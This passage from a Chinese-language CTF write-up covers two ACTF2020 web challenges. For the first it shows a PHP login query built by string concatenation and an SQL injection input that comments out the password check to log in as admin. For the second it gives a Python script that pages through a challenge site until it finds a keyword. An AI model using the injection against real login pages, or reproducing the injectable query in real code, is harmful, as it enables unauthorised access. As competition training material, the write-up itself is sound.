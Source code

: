 查看源代码，有个`index.txt`，里面是源码：

```php
$username = $_POST[username];
$passwd = md5($_POST[passwd]);
$sql = "select username from users where (username='$username') and (pw='$passwd')";
```

构造`sql`语句，注释掉查询`pw`的部分：

```mysql
select username from users where (username='admin')#') and (pw='$passwd')";
```

用户名是`admin`时显示登录成功：

![burp](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/ACTF2020/web/universal_sql/1.png)



## 茶颜悦色

- 题目描述：茶颜！快来排队叭！
- 考察点：py脚本
- 难度：简单
- 分值：100
- 完成人数：9

网站链接都是假的...只有翻页能点...查看源码有提示：

```html
<!--找一找我最喜欢喝的幽兰拿铁!-->
```

于是写脚本自动翻页：

```python
#!/usr/bin/python3
#__author__:TaQini
import requests

# header
s=requests.session()                                     
s.headers['Accept']='text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8'
s.headers['Accept-Encoding']='gzip, deflate, br'
s.headers['Host']='url'                 
s.headers['Accept-Language']='zh-CN,zh;q=0.9,en;q=0.8,ja;q=0.7,ko;q=0.6'
s.headers['User-Agent']='zilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36'

url = 'http://47.106.94.13:40004'

# get
def get_data(i):                          
    res = s.get(url,params={'page':str(i)})
    res.encoding = res.apparent_encoding
    return res.text 

i=0
while True:
    print('page %d'%i)
    t = get_data(i)
    i+=1
    if '幽兰拿铁' in t[1000:]:
        print(t[1000:])
        break
```
